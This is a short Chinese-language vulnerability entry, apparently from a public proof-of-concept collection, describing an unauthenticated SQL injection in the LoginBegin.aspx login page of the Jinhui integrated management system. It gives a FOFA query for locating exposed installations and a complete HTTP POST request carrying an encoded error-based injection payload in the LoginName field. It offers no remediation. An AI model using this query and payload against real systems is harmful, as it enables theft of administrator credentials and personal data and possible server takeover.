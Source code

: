 # 金慧综合管理信息系统LoginBegin.aspx存在SQL注入漏洞

由于金慧-综合管理信息系统 LoginBegin.aspx（登录接口处）没有对外部输入的SQL语句进行严格的校验和过滤，直接带入数据库执行，导致未经身份验证的远程攻击者可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
body="/Portal/LoginBegin.aspx"
```

## poc

```yaml
POST /Portal/LoginBegin.aspx?ReturnUrl=%2f HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
 
Todo=Validate&LoginName=1%27+AND+5094+IN+%28SELECT+%28CHAR%28113%29%2BCHAR%2898%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28113%29%2B%28SELECT+%28CASE+WHEN+%285094%3D5094%29+THEN+CHAR%2849%29+ELSE+CHAR%2848%29+END%29%29%2BCHAR%28113%29%2BCHAR%28107%29%2BCHAR%28118%29%2BCHAR%28120%29%2BCHAR%28113%29%29%29+AND+%27JKJg%27%3D%27JKJg&Password=&CDomain=Local&FromUrl=
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407261053940.png)